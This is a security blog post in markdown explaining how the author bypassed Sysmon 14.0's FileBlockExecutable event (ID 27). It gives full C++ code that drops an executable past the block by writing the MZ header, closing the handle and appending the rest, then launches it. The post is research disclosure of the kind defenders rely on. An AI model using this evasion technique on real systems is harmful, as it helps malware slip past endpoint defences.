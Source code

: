 ```yaml
---
layout: article
title: "Sysmon EID 27 Bypass" 
categories: [Cybersecurity]
author: Ahmed Elmayyah
tags: [Cybersecurity, Programming, C, Exploitation, Bypass]
mode: normal 
header:
  theme: dark
article_header:
  type: cover 
  theme: dark
  background_image: false
# Stick to an image with a height of 700
  image:
    src: /assets/images/sysmon-eid-27-bypass/sysmon_header.jpg
cover: /assets/images/sysmon-eid-27-bypass/sysmon_cover.jpg
---
```


Sysmon version 14.0 was released on the 16th of August 2022. The new version introduces a new Event ID: 27 FileBlockExecutable. It is kind of new for sysmon to block something from happening completely. So, it was interesting to think of a way to bypass it!

I came across [this post by Olaf Hartong](https://medium.com/@olafhartong/sysmon-14-0-fileblockexecutable-13d7ba3dff3e). In this post, Olaf was previewing the new event and how it works on a surface level.
<!--more-->
> The same is true for an DLL/XLL/WLL file since that will share the same MZ header.

It seemed apparent that the new rule is using the MZ header(explained below) to detect if the file is a Windows executable or not.

# Preparation

Taking the simple config file from the post for demonstration purposes, I installed Sysmon 14.0 on my Windows 10 VM and set the config file below. The file basically sets the rule to fire on any executable file in the Downloads folder of any user.
```xml
<Sysmon schemaversion="4.82">
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <FileBlockExecutable onmatch="include">
            <TargetFilename condition="contains all">C:\Users;Downloads</TargetFilename>
         </FileBlockExecutable>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```

I also wrote a very simple executable which prints out "Catch me if you can, Sysmon!". This is the executable that I'm going to try to drop and run from the Downloads folder. This executable as a start is placed in Documents\App.exe.

In an actual attack scenario, the executable file (PE) would be recieved from a remote server or perhaps embedded in the malware dropper itself. However, this is for demonstration only so it shouldn't really matter as Sysmon doesn't care where the file originated. All it cares about is the writing of an executable to the folders specified in the rule.
{:.info}


{: style="text-align:center"} 
![Output of the program](/assets/images/sysmon-eid-27-bypass/App.exe.png)

I also opened the event viewer and set a filter for event 27 at `Application and Services Logs/Microsoft/Windows/Sysmon/Operational`.

{: style="text-align:center"}
![Sysmon Filter](/assets/images/sysmon-eid-27-bypass/SysmonFilter.png)


To verify that Sysmon is working and will detect attempts to write an executable in the Downloads folder, I used the following simple program to write the file.

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the executable file
	WriteFile(downloadsFile, fileBytes, fileSize, NULL, NULL);
	return 0;
}
```


{: style="text-align:center"}
![Sysmon Blocking](/assets/images/sysmon-eid-27-bypass/WithoutBypass.png)
{: style="text-align:center"}
As expected, Sysmon detects the creation of the file and blocks it.


# The Bypass

## A little bit of background
If you don't know, file formats typically have a [sequence of bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) known as file signatures, file headers, or more commonly, Magic Bytes. They're used by operating systems and programs to detect file formats even if their names don't contain the file extension.

The Windows Portable Executable format uses a file header/signature of `MZ` (the bytes `0x4D` and `0x5A`). That includes all executables, including .exe, .dll, .sys, etc...

Fun Fact: MZ is used as they are the initials of [Mark Zbikowski](https://en.wikipedia.org/wiki/Mark_Zbikowski), one of the lead developers of MS-DOS and the designer of the MS-DOS executable file format (which later became the Portable Executable format).
{:.info}


## Primal instinct
My very first thought was to zero out the MZ header and try to execute the file as is. That way Sysmon wouldn't detect it but I'd still be able to execute it just fine. However, that failed as `CreateProcess()` failed to execute a binary that doesn't have an MZ header. Running the executable from PowerShell or the command line prompt didn't work either. Interestingly enough, this proved some points:
 - Sysmon relies on the MZ header to detect an executable, as writing an entire binary without "MZ" worked just fine. 
 - Sysmon doesn't rely on the bytes `MZ` alone as when writing those to a file, it doesn't detect anything.


So, it seems like Sysmon relies on `MZ` alongside _something_ else to detect that it is an executable.

## The Actual bypass
Puting two and two together, what if we just wrote the file on two stages. We can write the string "MZ" first, and then write the rest of the file.

At first, I tried making two different calls to `WriteFile()` using the same file handle obtained from `CreateFileA()`. Sysmon was able to detect and block that just fine. However, the following steps worked:
 1. Create a file
 2. Write "MZ" to the file
 3. Close the handle to the file
 4. Open a handle to the same file in append mode
 5. Append the rest of the content to the file (make sure to skip the first two bytes)
 6. Close the handle
 7. Profit??

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions to write the MZ header
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the MZ header
	WriteFile(downloadsFile, "MZ", 2, NULL, NULL);

	//Close the file, this is extremely necessary to bypass sysmon
	CloseHandle(downloadsFile);

	//Get a handle to the file in append mode to write the rest of the file
	downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		FILE_APPEND_DATA, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the rest of the file, skipping the first two bytes of the file
	WriteFile(downloadsFile, fileBytes + 2, fileSize - 2, NULL, NULL);
	CloseHandle(downloadsFile);

	//Create a new process using the executable we just very _stealthily_ dropped!
	STARTUPINFOA si;
	PROCESS_INFORMATION pi;
	CreateProcessA("C:\\Users\\Satharus\\Downloads\\App.notexe", NULL,
		NULL, NULL, true, 0, NULL, NULL, &si, &pi);
	return 0;
}
```

{: style="text-align:center"}
![Sysmon Blocking](/assets/images/sysmon-eid-27-bypass/WithBypass.png)
{: style="text-align:center"}
Sysmon doesn't detect the creation of the file and the process is allowed to execute.

This worked flawlessly. 

Simple? Yes. 

Stupid? Probably. 

Effective? Definitely!


Thanks a lot for reading! As usual, I hope you learned something or at least found it interesting!

If you enjoyed it, please share it with your friends that are interested in simple detection bypasses.

